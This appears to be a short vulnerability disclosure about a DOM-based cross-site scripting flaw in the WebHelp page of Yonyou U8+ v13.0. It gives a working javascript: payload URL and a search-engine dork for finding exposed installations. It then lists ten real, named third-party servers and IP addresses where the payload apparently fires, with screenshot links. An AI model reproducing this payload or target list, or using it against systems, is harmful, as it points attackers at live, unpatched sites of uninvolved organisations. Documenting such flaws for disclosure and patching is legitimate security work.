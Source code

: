 # Yonyou DOM XSS

Supplier: https://www.yonyou.com/

The version is: Yonyou U8+v13.0

Payloads：

/U8SL/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

Search using bing. 

Inurl:/u8sl/WebHelp

Case 1

http://222.190.139.182/U8SL/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440647-7841263c-fa95-43e1-a565-9d4682c56326.png">

Case2

http://223.71.153.69/U8SL/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440672-29ca2743-8237-41db-9bfc-9974bb92024d.png">

Case3

http://www.wshine.net.cn/u8sl/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440700-e1081467-ecb0-4478-9338-ef9c1cde4223.png">

Case4

http://218.249.92.74/U8SL/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440751-f288002e-cc85-4cf5-bdd9-7569ad51caef.png">

Case5

http://211.100.61.21/u8sl/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440789-266ab54e-69dd-43f7-809a-75212d4898f0.png">

Case6

http://219.137.182.99:8008/u8sl/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440813-396f488a-21f9-4621-b421-d14f20187945.png">

Case7

http://wangbao.reachauto.com/u8sl/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440876-0950b1d3-4cbc-49b2-b25a-cf59d5e881ba.png">

Case8

http://www.wshine.net.cn/u8sl/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440907-d4d51146-e11d-48ff-b15c-be5dd361e526.png">

Case9

http://hr.way-on.com:9704/u8sl/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440937-5479b062-e07d-4e3f-ac01-a7d1b4bdbe92.png">

Case10

http://hnslks.gnway.org:8088/U8SL/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440953-0cb72f61-3ef5-4575-9340-fe84cc29ac3f.png">


